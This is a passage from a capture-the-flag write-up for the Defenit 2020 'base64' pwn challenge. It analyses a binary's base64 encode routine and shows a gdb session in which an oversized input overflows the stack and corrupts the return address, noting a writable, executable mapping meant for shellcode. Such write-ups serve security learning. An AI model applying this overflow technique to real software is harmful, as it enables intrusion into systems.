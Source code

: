 `buffer` can contain anything but NULL bytes.

`key` must be base64. The mapping is empty if it contains any invalid base64
character. It is truncated to the first `=`.

The fact that `key`'s mapping is writable and executable, and that it is mapped
at a fixed address that can be represented as `wwp` hints that it is expected to
use `key` as a shellcode at some point.

The function `handleRequest` at `0x08048bf0` takes the `request` structure,
and calls either `encode` at `0x08048cc0` or `decode` at `0x08048c72`.

These functions respectively encode and decode base64. It uses the key to
transform the alphabet. It is not required to understand exactly how the
alphabet is modified as the binary can be used as an oracle to encode/decode
a buffer with a specific key.


## Exploitation

When encoding in base64, the output needs 4/3 times more bytes than the input
(it outputs 4 bytes for 3 bytes encoded). This looks like a good candidate for a
buffer overflow ; and it is : encoding a very large buffer results in a
segmentation fault.

```
(gdb) r < <(printf 'cmd=encode&key=a&buf=%04096d')
Starting program: /mnt/ctf/2020/2020-06-05-Defenit/pwn/base64/chall < <(printf 'cmd=encode&key=a&buf=%04096d')
Content-type: application/json

{"cmd": "encode", "output": "MDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMA=="}

Program received signal SIGSEGV, Segmentation fault.
0x08048373 in ?? ()
=> 0x08048373:	c3	ret

(gdb) x/wz $sp
0x77414449:	Cannot access memory at address 0x77414449

% xxd -r -ps <<< 77414449
wADI
```

`encode` smashes the stack by only a few bytes.

The call stack looks like this :

```
main
`-> handleRequest
    `-> encode
```
